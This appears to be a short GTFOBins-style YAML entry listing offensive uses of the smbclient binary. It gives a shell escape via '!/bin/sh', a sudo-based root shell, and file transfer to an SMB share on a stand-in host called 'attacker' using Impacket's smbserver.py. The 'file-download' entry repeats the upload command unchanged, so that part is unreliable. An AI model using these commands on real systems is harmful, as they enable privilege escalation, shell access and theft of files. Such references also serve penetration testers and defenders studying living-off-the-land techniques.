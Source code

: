 description: A valid SMB/CIFS server must be available.
functions:
  shell:
    - code: |
        smbclient '\\attacker\share'
        !/bin/sh
  file-upload:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  file-download:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  sudo:
    - code: |
        sudo smbclient '\\attacker\share'
        !/bin/sh
---
